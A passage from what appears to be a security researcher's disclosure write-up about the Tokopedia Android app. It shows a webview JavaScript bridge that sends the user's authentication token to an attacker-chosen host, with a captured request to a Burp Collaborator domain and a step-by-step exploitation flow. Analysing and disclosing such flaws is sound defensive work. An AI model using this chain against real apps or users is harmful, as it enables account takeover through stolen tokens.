 This triggers an HTTP request to the specified URL (as far as I can tell, there wasn't any URL validation in this feature). To test the mechanism, I set up a "malicious" website, loaded it into TkpdWebView, and called getOneKycUserDetails with a [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) domain as the first argument. Viewing the request in Burp, I saw this:

```
GET /onekyc/v1/users/address-details HTTP/1.1
x-onekyc-token: arg2
x-onekyc-partner: arg3
tracestate: [redacted]
traceparent: [redacted]
newrelic: [redacted]
x-project-id: 
X-Tkpd-App-Name: com.tokopedia.tkpd
X-Device: android-3.270.0
Accounts-Authorization: Bearer [redacted]
X-Datavisor: [redacted]
x-user-locale: id_ID
x-onekyc-sdk-version: 2.4.9
x-onekyc-sdk-platform: Android
x-onekyc-sdk-host-version: 3.270.0
x-onekyc-sdk-host: TOKOPEDIA_CUSTOMER
x-onekyc-sdk-host-appId: com.tokopedia.tkpd
Host: [redacted].oastify.com
Connection: Keep-Alive
Accept-Encoding: gzip
User-Agent: okhttp/4.10.0
X-NewRelic-ID: [redacted]
```

The Accounts-Authorization header was a sight for sore eyes - **it contained my Tokopedia authentication token!** Finally, I had a full exploitation path with confirmed impact.

### Exploitation Flow

The initial attack vector for this vulnerability chain is via URL click; essentially, a victim could be exploited simply by clicking a link (e.g., in a web browser). From there, the following would occur:

1.  The Tokopedia app automatically opens the link with NewMainParentActivity.
2.  The EXTRA_APPLINK value is extracted from the Intent and parsed, triggering WebviewWithGotoKycActivity.
3.  The url parameter is parsed and validated. If the URL passes all validation checks, it is loaded into TkpdWebView.
4.  The malicious website uses client-side JavaScript to execute OneKycAndroidInterface.getOneKycUserDetails with an attacker-controlled URL in the first argument.
5.  The app makes an HTTP request to the attacker-controlled host with the victim's Tokopedia authentication token in the Accounts-Authorization header.

Once the attacker receives the token, they can use it to make authenticated requests to the Tokopedia back-end with the victim's account.

### Disclosure Timeline
